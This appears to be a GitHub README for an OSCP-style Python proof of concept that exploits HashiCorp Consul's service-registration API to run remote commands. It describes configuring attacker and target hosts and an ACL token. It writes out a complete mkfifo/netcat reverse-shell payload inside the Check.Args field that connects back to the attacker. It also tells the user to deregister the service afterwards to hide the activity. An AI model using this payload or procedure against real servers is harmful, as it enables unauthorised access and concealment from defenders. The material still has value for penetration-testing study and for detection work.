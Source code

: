 # Hashicorp Consul - Remote Command Execution PoC
Author: blu3ming

This is a variation of the PoC found in Metasploit. The objective of this script is not to depend on that tool (OSCP style) and to perform the same procedure manually.

## Use
You need to set LHOST, LPORT (if 443 is already in use on your machine), RHOST and ACL_TOKEN (if apply) inside the script first. This script gets a reverse shell automatically, there's no need of netcat.

`python consul_rce_poc.py`

## Consul
Consul is a free and open-source service networking platform developed by HashiCorp. It has a RCE vulnerability when creating a service through it's API.

## Creating a service
As [Consul documentation](https://developer.hashicorp.com/consul/api-docs/agent/service) describes, we can create a service using the /v1/agent/service/register endpoint, which receives the following data via a PUT request:

- ID: Specifies a unique ID for this service
- Name: Specifies the logical name of the service
- Address: Specifies the address of the service
- Port: Specifies the port of the service
- Check: Specifies a check and, according to it's [documentation](https://developer.hashicorp.com/consul/api-docs/agent/check), uses the following data:
    * Args: Specifies command arguments to run to update the status of the check (eg. "args": ["sh", "-c", "..."])
    * Interval: Specifies the frequency at which to run this check
    * Timeout: Specifies a timeout for outgoing connections in the case of a Script, HTTP, TCP, UDP, or gRPC check
   
## Remote command execution
The creation of this service requires an authentication token from the Consul service, also known as ACL Token. As we can see, we can declare a command inside the Check.Args parameter, and Consul will execute it for us. In this case, we want to execute a reverse shell to get access to the Consul server:

`"Args":["sh", "-c","rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f"]`
  
With this command, now we can bind for a connection with the help of the **shell** function of the Python library **pwntools**.

## Getting access to the server
Consul returns an interactive console:
![imagen](https://user-images.githubusercontent.com/25083316/206324244-5449ebe5-269d-4634-847e-614f7b09c108.png)

## Deleting the service
Finally, we need to delete the service created in order to hide our activity. This can be done with a PUT request to the /v1/agent/service/deregister/[NAME] endpoint, of course, still using the ACL Token from Consul.
![imagen](https://user-images.githubusercontent.com/25083316/206324287-f6ad616c-67f7-4e9a-b114-1f33ac50fd85.png)

## Dependencies
- requests
- json
- pwntools (can be installed via "pip install pwn")
- threading
